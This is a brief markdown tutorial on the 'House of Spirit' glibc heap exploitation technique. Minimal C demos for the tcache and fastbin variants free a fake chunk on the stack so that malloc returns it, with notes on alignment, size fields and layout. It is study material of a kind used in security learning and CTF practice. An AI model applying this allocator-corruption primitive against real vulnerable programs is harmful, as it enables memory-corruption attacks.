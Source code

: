 # House of Spirit
> LongChampion, 13/03/2020

## with tcache (glibc >= 2.26)
This attack is quite simple, look at the code:
```
#include <stdlib.h>

int main()
{
    long long FAKE[4];
    void *ptr = malloc(0x10);
    ptr = &FAKE[2];
    FAKE[1] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
## with fastbin (glibc <= 2.25)
To *hijack* fastbin, you need to create 2 chunks to bypass security check: `size` of chunk to be free must be equal to `size` of next chunk in memory.  
```
#include <stdlib.h>

int main()
{
    long long FAKE[6];
    void *ptr = malloc(0x10);
    ptr = &FAKE[2];
    FAKE[1] = 0x20;
    FAKE[5] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
### Note:
- **THE MOST IMPORTANT**: `FAKE` (and all other chunks) must be aligned by `MALLOC_ALIGNMENT` (usually 16 bytes in x64 system, 8 bytes in x32 system). Your life may be destroy if you forget this. To make sure that `FAKE` is aligned, add `__attribute__` to it:
    > `long long FAKE[6] __attribute__((aligned(16))); // change 16 to 8 when compile in x86 system`

- The `PREV_INUSE` flag is ignored, but `IS_MMAPPED` flag and `NON_MAIN_ARENA` flag can cause problem!
- The memory layout is (use for both case):
    > | FAKE | chunk           |
    > |------|-----------------|
    > | 0    | first.pre_size  |
    > | 1    | first.size      |
    > | 2    | first.fd        |
    > | 3    | first.bk        |
    > | 4    | second.pre_size |
    > | 5    | second.size     |
- In both case, `ptr` will point to `FAKE[2]` at the end (not point to `FAKE`)
- `FAKE` must have at least 4 elements (6 elements for fastbin) because when it is freed, the `fd` and `bk` pointer will be modified, this change can smash your stack frame!
- After `FAKE` is free, make sure that you call `malloc` with suitable request size so that it will return `FAKE[2]` to you.
- In the later case, make sure that distance between two chunks is equal to `size` (they are not adjacent on memory in general case)
